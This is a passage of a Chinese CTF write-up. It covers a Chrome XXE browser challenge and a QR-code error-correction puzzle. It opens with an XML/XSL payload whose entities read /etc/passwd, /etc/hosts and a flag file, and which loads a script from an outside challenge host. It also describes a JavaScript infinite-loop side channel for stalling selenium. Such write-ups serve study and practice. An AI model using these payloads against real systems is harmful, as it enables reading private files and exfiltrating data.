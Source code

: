 xsl2.html
```html
<?xml-stylesheet type="text/xsl" href="?#"?><!DOCTYPE p [
<!ENTITY passwd SYSTEM "file:///etc/passwd">
<!ENTITY hosts SYSTEM "file:///etc/hosts">
<!ENTITY group SYSTEM "file://localhost/etc/group">
<!ENTITY flag SYSTEM "file:///flag">

]> 

<p>
  <p id="flag">&flag;</p>
  <script src="http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/get.js"></script>
</p>
```

第二问没有外网，需要换个思路。我刚好查到一个单文件打这个洞的[POC](https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE)，应该可以解决读取的问题（当然，我本地又没跑通，没时间检查问题出在哪里了）。此外还得解决回传问题，这次不像微积分小练习，是真的没有任何回传接口，我猜是得想办法让selenium报错/崩溃打侧信道，不过即使调出来应该也要挺花时间。

#### 11.28 update

看到了一个[writeup](https://blog.csdn.net/Jayjay___/article/details/134643090)
1. svg里面可以直接插script标签执行代码，就不用费劲往onload里塞one-liner了。xml确实是不行。poc确实是之前看到那个single file改的，也不知道为啥当时就是打不通，烦躁。
2. Javascript侧信道：`while(true){console.log(1);}`。看起来js死循环是可以成功让selenium卡住的，这个可能和selenium的timeout策略有关，js没执行完走的是set_page_load_timeout的15秒而不是time.sleep的4秒（事实上如果是需要load finish根本走不到time.sleep），总之这个很好测。

> selenium timeout: ([https://www.browserstack.com/guide/understanding-selenium-timeouts](https://www.browserstack.com/guide/understanding-selenium-timeouts))
> - It is 0 seconds for implicit waits. Here the Selenium Command reports immediately if it cannot find an element.
> - It is 300 seconds for page loads.
> - It is 30 seconds for script timeouts.

### wait for first blood (misc)
这个题先不说难度，机制上就感觉挺新鲜的。这个题服务器会传回一个不完整（缺失部分像素）的二维码，并且随着时间推移，服务器返回的二维码缺失像素会越来越少，二维码会逐渐变得完整，最终在比赛快结束的时间段二维码是可以通过内置纠错机制复原的。因为这个题到第二天晚上才逐渐可解，所以准备打这个题抢一血的师傅们只能被迫熬夜了（我直接通宵了，从前一天10点开始，8点交flag）。

要做这个题就必然要了解QR code的结构，编码格式，纠错机制，排布顺序等等实现细节。我不打算在这里完全讲一遍，因为提示给的这篇[中文博客](https://note.tonycrane.cc/ctf/misc/qrcode/)和[英文文档](https://gcore.jsdelivr.net/gh/tonycrane/tonycrane.github.io/p/409d352d/ISO_IEC18004-2015.pdf)讲的更好。解码的过程基本上是把流程倒着走一遍。

我们的QR-Code是45x45，从尺寸上是Version 7，format code是type-0 mask和H冗余格式。QRcode有效数据会以一种蛇字形方式填充非格式/结构部分。下图是我验证代码正确性画的填充顺序示意图，还有点微妙的艺术感

![](qr/format_c.png)

之后，注意QRcode的数据部分是经过掩码处理的，需要复原。到这一步，我们可以把整个QRcode变为196个字节（8位）数据流。接下来需要处理分块问题，把数据流转化为几块数据和纠错码。问题在于，中文文档中说这个分块格式记录在文档的一个表格里，但是我完全无法理解表格的分块格式（我认为那个表格做的极其令人迷惑），因为前面LMQH是4个数据，后面就变成6个数据了，完全不知道对应关系。我是看到[别的博客](https://www.thonky.com/qr-code-tutorial/error-correction-table)才找到，原来有些行是对应两列的，比如7H需要4个大小为13的block和1个大小为14的block，这样一共66个数据字节，每个block配置26个纠错码字节，总共刚好196个，没有padding
